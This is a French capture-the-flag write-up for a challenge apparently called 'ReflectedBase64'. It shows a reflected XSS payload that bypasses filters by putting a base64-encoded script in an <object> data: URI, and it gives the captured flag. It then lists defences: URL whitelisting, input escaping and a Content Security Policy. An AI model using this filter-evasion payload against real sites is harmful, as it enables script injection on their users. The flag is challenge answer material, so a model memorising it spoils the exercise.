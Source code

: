 # Nom de la faille
ReflectedBase64 

## Exemple de charge utile `data:` URI

On peut contourner certains filtres XSS en utilisant une URI de type `data:` encodée en **base64**.

**Object ou iframe avec URI malveillante :**

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"></object>
```

Cette charge utile base64 représente :

```html
<script>alert('XSS')</script>
```

## Format général de l’URI `data:`

```
data:[<type MIME>][;base64],<contenu encodé>
```

Exemple avec HTML encodé :

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

## Flag obtenu

```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

---

## Comment l’éviter

1. **Utiliser une whitelist d’URL sûres**

Limiter les sources autorisées (par exemple pour `src`, `data`, `href`) uniquement à des domaines ou chemins connus et vérifiés.

2. **Utiliser des iframes pour isoler du contenu externe**

Ne jamais intégrer directement des données potentiellement malveillantes via `<object>` ou `src=data:`. Préférer l'encapsulation dans une iframe sécurisée.

3. **Échapper les entrées utilisateur**

Toutes les données venant des utilisateurs doivent être encodées pour ne pas être interprétées comme du code (HTML, JS).

4. **Mettre en place une Content Security Policy (CSP)**

Empêcher l’exécution de scripts non autorisés, dont les `data:` URIs :

```http
Content-Security-Policy: default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'self';
```

Cela désactive les sources non approuvées, y compris les URIs de type `data:` pour les balises `<object>`, `<iframe>`, etc.

## Notes complémentaires

- Les balises `<object>` et `<iframe>` sont vulnérables si elles peuvent charger des données dynamiques non filtrées.
- Les filtres XSS classiques peuvent être contournés par des techniques comme le base64 ou l’utilisation de schémas URI alternatifs (`data:`, `javascript:`, etc.).

## Ressources

- [Bypassing XSS Filters using Data URIs (Cubalo)](https://cubalo.github.io/blog/2014/01/04/bypassing-xss-filters-using-data-uris/)
- [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
- [MDN – Content Security Policy (CSP)](https://developer.mozilla.org/fr/docs/Web/HTTP/Guides/CSP)
